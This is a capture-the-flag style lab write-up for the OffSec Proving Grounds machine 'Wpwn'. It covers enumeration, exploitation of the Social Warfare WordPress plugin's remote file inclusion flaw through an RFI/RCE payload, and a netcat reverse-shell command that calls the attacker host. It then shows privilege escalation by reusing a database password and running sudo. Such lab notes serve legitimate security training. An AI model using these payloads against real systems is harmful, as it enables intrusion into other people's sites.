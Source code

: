 ```yaml
---
title: OffSec PG - Wpwn
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.80.123`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.80.123`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                     |
| -------- | ----------- | ---------------------------------------------- |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                 |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.80.123 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Directories/files listed &rarr;

- index.html
- wordpress/

Running gobuster again for the wordpress directory gives additional results &rarr;

- index.php
- wp-content/
- wp-login.php
- wp-includes/
- readme.html
- license.txt
- wp-trackback.php
- wp-admin/
- xmlrpc.php
- wp-signup.php

The folders indicates that an instance of wordpress is running on the web server. Running wpscan on the webserver using the docker image by `docker run -it --rm wpscanteam/wpscan --url http://192.168.80.123/wordpress/` gives the following info &rarr;

- Directory listing enabled at `/wordpress/wp-content/uploads/`
- WP-Cron enabled at `/wordpress/wp-cron.php`
- Wordpress version 5.5 using generator tag at `/wordpress/index.php/feed/`
- Wordpress theme version 1.5 (latest is 1.8)
- User `admin` identified at `/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1`
- Outdated plugin Social Warfare 3.5.2 (latest is 4.3) identified at `/wordpress/wp-content/plugins/social-warfare/readme.txt`

---

## Exploitation

### RFI and RCE

Using searchsploit to search for social warfare gives the result as an RCE for versions < 3.5.3. Looking at the exploit, it needs a payload url to know the payload (an RFI). This will be included in `/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=<RFI_URL>`.

### Reverse shell

Visiting this page would give the result of the command in the payload url. The payload must be of the form &rarr;

`<pre>system('whoami')</pre>`. Checking the existence of netcat and bash, a new payload can be used for a reverse shell &rarr; `nc -e /bin/bash 192.168.49.80 3002`. This grants the user flag.

---

## Privilege Escalation

### User

The users discovered from the reverse shell as `www-data` are `root` and `takis`. Looking through the config of wordpress in `wp-config.php`, a DB_password is found. This could be used for the `takis` user on ssh. This works and a user shell is obtained.

### Root

The `takis` user is able to run sudo without a password for all commands. Therefore `sudo su` grants the root shell as well as the root flag.

---
